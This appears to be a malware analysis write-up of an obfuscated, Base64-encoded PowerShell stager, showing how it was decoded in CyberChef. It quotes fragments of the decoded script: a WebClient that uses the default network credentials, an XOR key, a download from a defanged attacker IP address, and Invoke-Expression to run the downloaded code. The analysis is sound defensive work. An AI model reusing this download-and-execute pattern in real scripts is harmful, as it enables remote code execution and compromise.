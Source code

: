 # PowerShell encoded script investigation

The following suspicious PowerShell-encoded script has been received.  Let's look into the contents of the script and try to unveil its true nature and potential risks.


![image](https://github.com/user-attachments/assets/d8240950-709c-45fa-b6bf-35d57e950638)

# Investigation steps:

1. The file seems to be encoded using Base 64 format.
2. Head over to CyberChef, select  "from Base64" and paste the encoded value in the input box.
3. Add the " Remove null byte " option to eliminate  all Null values.
4. Check the output to determine the script's intention. 


![image](https://github.com/user-attachments/assets/15875dd7-bddd-4b00-b438-c9efe2b7e997)

# Observations:

* The file creates a WebcClient object  : $WC New-Object SySTeM.NET.WebCliENt
* Naming has been obfuscated by mixing uppercase and lowercase letters 
* Sets the User-Agent: $u Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko' $WC.HeADeRS.ADd('User-Agent', $u)
* Configure a proxy and sets the credentials: <br> 
	$Wc.ProxY  [System.NeT.WEBReQUEst]::DEFAuLtWebProXy
	$wc.PROxY.CrEdenTialS  [SysTem.NEt.CRedeNTIAlCAcHE]::DeFAULTNetWOrKCredENTiAls
	
* Performs obfuscation of key :  $K = 'IM-S&fA9Xu{[)|wdWJhC+!N~vq_12Lty'
* The script downloads content from http[:]//98[.]103[.]103[.]170[:]7443/index.asp, likely a remote server .
* The result of the operation is stored in $B variable. 
* It uses IEX ( Invoke-Expression) to execute the contents of $B variable, which suggests it tries to execute the code received from remote location.

# Investigation Summary: 
	
* The script is likely downloading a piece of code from a remote server, decrypting it using XOR with a key, and then executing it.
* The downloaded content might be malicious in nature, and the use of Invoke-Expression to execute it further suggests that it is trying to run dynamic code received from a remote location.
* The  system this script was found on needs to be investigated further for data exfiltration or attempted attack.
